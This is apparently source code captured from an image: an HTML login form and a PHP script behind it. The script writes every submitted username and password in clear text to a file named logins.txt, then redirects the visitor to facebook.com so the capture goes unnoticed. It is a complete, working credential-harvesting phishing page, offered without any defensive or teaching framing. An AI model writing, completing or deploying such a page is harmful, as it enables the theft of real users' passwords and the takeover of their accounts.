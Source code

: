 <body>
  <div class="container">
   <form action="login.php" method="POST">
  <input type="text" name="username" />
  <input type="password" name="password" />
  <button type="submit">Log In</button>
</form>

  </div>
</body>

</html>



login.php





<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $user = $_POST["username"];
    $pass = $_POST["password"];

    $data = "Username: $user | Password: $pass\n";
    file_put_contents("logins.txt", $data, FILE_APPEND);

    // Optional: Redirect after login
    header("Location: https://facebook.com"); 
    exit();
}
?>

